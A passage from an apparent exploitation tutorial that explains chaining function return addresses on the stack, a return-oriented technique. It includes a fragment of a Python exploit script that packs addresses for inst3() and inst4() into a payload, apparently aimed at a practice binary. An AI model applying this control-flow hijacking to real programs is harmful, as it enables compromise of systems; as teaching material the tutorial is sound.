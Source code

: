 
	```
	| inst1()'s address | <----- rsp
    | inst2()'s address |
    | Some other crap   |
    |                   |
    |                   |
	
	```

* What happens after ```inst2()``` is done with execution? It is also a function. It has a return address. It gives the control to code at **Some other crap**. 

* I hope you are getting an idea of what is being done here. Instead of crap being present, we will ```inst3()```'s address there. 

* With the same logic, we will put ```inst4()```'s and ```inst5()```'s addresses onto the stack. 

* Let us update the exploit script.

    ```python
    # inst3()'s address
    inst3_address = 0x0000000000400543
    # inst3()'s address in little-endian byte order
    # For 64-bit executables, 
    payload += struct.pack('<Q', inst3_address)

    # For 32-bit executables, 
    # payload += struct.pack('<I', inst3_address)

    # inst4()'s address
    inst4_address = 0x0000000000400551
    # inst4()'s address in little-endian byte order
    # For 64-bit executables, 
    payload += struct.pack('<Q', inst4_address)

    # For 32-bit executables, 
    # payload += struct.pack('<I', inst4_address)
